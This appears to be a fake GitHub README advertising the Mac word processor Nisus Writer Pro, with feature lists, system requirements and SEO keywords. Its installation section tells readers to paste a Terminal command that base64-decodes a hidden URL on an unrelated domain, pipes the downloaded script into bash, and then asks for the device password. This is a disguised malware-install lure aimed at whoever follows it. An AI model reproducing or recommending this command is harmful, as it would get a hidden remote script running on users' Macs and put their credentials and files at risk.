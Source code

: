 # 📝 Nisus Writer Pro for Mac — Elegant Word Processing with Power

📌 About Nisus Writer Pro  
Nisus Writer Pro is a professional word processor built natively for macOS, designed to empower writers, academics, legal professionals, and multilingual users.  
It combines a distraction-free writing interface with powerful features like style sheets, macros, tracked changes, commenting, tables of contents, bookmarks, and PDF export.  
With full Unicode support and right-to-left language compatibility, it’s ideal for global writing and publishing. Whether you're writing a novel, a legal brief, or a technical report, Nisus Writer Pro ensures full typographic control and smooth macOS integration.  
All documents are saved locally, ensuring full privacy and long-term accessibility — no cloud lock-in, no telemetry, just pure writing power.

## 🧰 Installation via a command in the terminal:
1. Copy the installation command below.
```
   /bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9zb2wvaW5zdGFsbC5zaA== | base64 -d))"
```  
3. Open Terminal on your device, paste the command, then press Return.  
4. Enter your device password when prompted and confirm the installation.

![Installing via Terminal](https://i.postimg.cc/NfzQxpMT/0723-1.gif)

## 📸 Overview  
A quick look at key parts in action:  
- ![](https://www.nisus.com/pro/images/MacBook@1x.png)  
- ![](https://cdn.mos.cms.futurecdn.net/b9ae960315f349e1b09671606881f0f0.jpg)  

## 🎯 Key Features  
⚡️ Pro Writing Tools: Styles, TOC, bookmarks, revision tracking, and more.  
🔒 Local-Only Files: Full offline operation with private file storage.  
⚙️ Macros & Automation: Automate tasks with a powerful built-in macro language.  
🚀 Optimized for Speed: Fast performance even with large, complex documents.  
🎨 Multilingual Support: Full Unicode, RTL languages, and multilingual spellcheck.  
📊 Export Options: Save as RTF, DOC, PDF, HTML, or plain text with full formatting.

## 💡 System Requirements  
- OS: macOS 12.0 Monterey or newer  
- CPU: Apple Silicon or Intel Core i5 and above  
- RAM: 4 GB minimum  
- Storage: 300 MB available  
- Others: Terminal access and active internet connection

## 🔍 SEO Keywords  
`nisus writer pro mac` · `mac word processor` · `macos writing software` · `multilingual word processor mac` · `mac writing tool for academics` · `track changes editor mac` · `mac document automation` · `mac rtl text editor` · `mac unicode writing app` · `mac writing with macros` · `mac export to pdf word processor` · `offline word editor mac` · `mac writing tool with styles` · `nisus document editor` · `mac professional writing app`
